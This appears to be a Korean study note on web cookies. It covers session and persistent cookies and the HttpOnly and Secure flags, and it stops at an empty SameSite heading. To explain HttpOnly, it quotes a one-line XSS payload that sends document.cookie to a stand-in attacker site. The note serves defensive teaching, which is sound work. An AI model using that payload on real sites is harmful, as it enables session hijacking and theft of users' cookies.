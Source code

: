 

### Session Cookie와 Persistent Cookie

- Session Cookie
  - 사용자가 사이트 탐색 시에 관련한 설정들과 선호 사항을 저장하는 **임시 쿠키 정도**로 생각하면 된다. 브라우저를 닫는 순간 삭제된다.
- Persistent Cookie
  - Session Cookie와 다르게 삭제되지 않고, 더 길게 유지된다. **디스크에 저장되며, 브라우저를 닫거나 컴퓨터를 재시작해도 남아있다.** 사용자 로그인 항상 유지와 같은 곳에 사용한다.
- 차이점
  - 파기시점 이외에는 차이점이 없다. Discard라는 파라미터가 설정되어 있거나, 파기까지 남은 시간인 Expires 또는 Max-Age라는 파라미터가 없으면 세션 쿠키이다.



### HttpOnly와 Secure

- **HttpOnly Cookie**

  - Document.cookie API와 같은 **자바스크립트로 Cookie를 조회하는 것을 막는** 옵션
  - Cookie는 클라이언트에서 자바스크립트로 조회할 수 있기 때문에, 해커들은 자바스크립트로 쿠키를 가로채고자 시도하게 된다. 가장 대표적인 공격 중 하나가 **Cross Site Scripting(XSS)**이다.

  ```
  location.href = '<http://해커사이트/?cookies=>' + document.cookie;
  ```

  - 해커가 위와 같은 게시물을 공개 게시판에 작성할 경우, 이 게시물을 읽은 다른 사용자는 알아차리기도 전에 자신의 모든 쿠키를 전송하게 된다.
  - 이러한 XSS 취약점을 해결하는 방법은 바로 **브라우저에서 쿠키에 접근할 수 없도록 제한**하는 것이다.
  - HttpOnly Cookie는 자바스크립트의 Document.cookie API에 접근할 수 없고, 서버에 전송되기만 한다. 이렇게 하면 **XSS와 같은 공격이 차단**되게 된다.

  ```
  Set-Cookie: id=a3fWa; HttpOnly
  ```

- **Secure Cookie**

  - 웹 브라우저와 웹 서버가 **HTTPS 프로토콜로 통신하는 경우에만** 웹 브라우저가 Cookie를 서버로 전송하는 옵션
  - Http Only Cookie를 사용하면 Client에서 JS를 통한 Cookie 탈취 문제를 해결할 수 있다. 하지만, JS가 아닌 네트워크를 직접 감청해서 Cookie를 가로챌 수도 있다. 미국의 NSA를 포함한 각국의 정보기관들이 Wifi 망 분석, ISP 케이블 감청을 통해 Cookie 등 개인 정보를 열람하고 있다는 사실은 더이상 비밀이 아니다.
  - 이러한 **통신상의 정보 유출을 막기 위해**, HTTPS 프로토콜을 사용하여 데이터를 **암호화하는 방법이 주로 사용**되고 있다. HTTPS를 사용하면 Cookie 또한 암호화되어 전송되기 때문에 제 3자는 내용을 알 수 없게 된다.
  - 문제는 HTTPS로 전송되어야 할 정보가 개발자의 부주의로 HTTP를 통해 유출되는 경우가 있다.

  ```
  <img src="<http://www.example.com/images/logo.png>" />
  ```

  - 브라우저는 http:// 로 시작되는 코드를 만나면 암호화되지 않은 상태로 Cookie를 서버로 전달하고 이때 해커는 그 쿠키를 탈취할 수 있다.
  - 이러한 사고를 방지하기 위해 Secure를 사용하는 것이다.
  - Secure Cookie는 HTTPS 프로토콜 상에서만 전송된다.

  ```
  Set-Cookie: id=a3fWa; Secure; HttpOnly
  ```



### SameSite Cookie
